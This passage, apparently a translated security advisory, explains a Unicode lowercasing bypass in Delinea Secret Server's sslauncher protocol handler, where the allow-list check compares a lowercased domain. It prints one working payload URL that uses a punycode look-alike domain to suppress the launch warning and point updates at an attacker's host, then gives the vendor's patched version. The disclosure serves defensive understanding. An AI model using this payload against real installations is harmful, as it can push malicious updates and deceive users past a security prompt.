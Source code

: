   
在提取域之前，首先将 ssurl 字符串对象转换为 Uri 对象，然后调用 ToLower() 函数将字符串转换为小写。虽然这在执行字符串比较时是一种很好的做法，但实验表明 toLower() 会将一些 unicode 字符转换为不同的 ASCII 表示形式。  
  
使用一个小型测试工具通过 GetSecretServerUrlBase() 函数运行整个 unicode 字符范围，以确定输入字符与 toLower() 调用结果之间的任何差异。以下两个字符似乎提供了有用的替换。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafB0xYPklyy3vJbLgTZccNiaCIzRBZib51FeptoxIq4qFXy26mhHTJZAphnXhf4ecRl4rO4XneJGonA/640?wx_fmt=webp&from=appmsg "")  
  
图像  
  
可以使用上述字符生成 punycode url，例如：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafB0xYPklyy3vJbLgTZccNiaDjic2AngGCwe5MpTPial6h9BUE60jSaicxShdROeLIqKPGeEvrF2ZDwWQ/640?wx_fmt=png&from=appmsg "")  
  
注册 xn–delinea-9he.com 作为域名将允许创建以下有效负载（假设受害者已经接受 company.delinea.com 作为批准端点）：  
  
```
sslauncher://aaaaaaa/?ssurl=https://xn--delinea-9he.com/aaaa/bbbb/cccc&autoUpdateEnabled=true&apiversion=1
```  
  
  
绕过的根本原因是：  
  
任何 Web 请求（例如，检查新版本或获取更新的 MSI）都是使用 Uri 对象执行的，该对象可以正确处理 punycode 编码的字符串并向恶意 delİnea.com 网站发出请求。  
  
toLower() 操作所创建的字符串用于与已批准站点列表进行比较。由于 U+0130 字符已转换为常规“i”，因此如果存储的域名为 delinea.com，则会导致比较失败。  
  
因此，如果攻击者能够使用上述 punycode 绕过技术构建 URL，则用户将不会看到“Secret Server 正在尝试启动以下 URL”的警告。  
  
**推荐**  
  
Delinea 发布了协议处理程序 (6.0.3.31) 的修补版本，可防止加载转换。Secret Server 版本 11.7.000049 的发行说明中详细介绍了这一点：  
  
https://docs.delinea.com/online-help/secret-server/release-notes/ss-rn-11-7-000049.htm#SecretServer117000049ReleaseNotes  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这**  
  
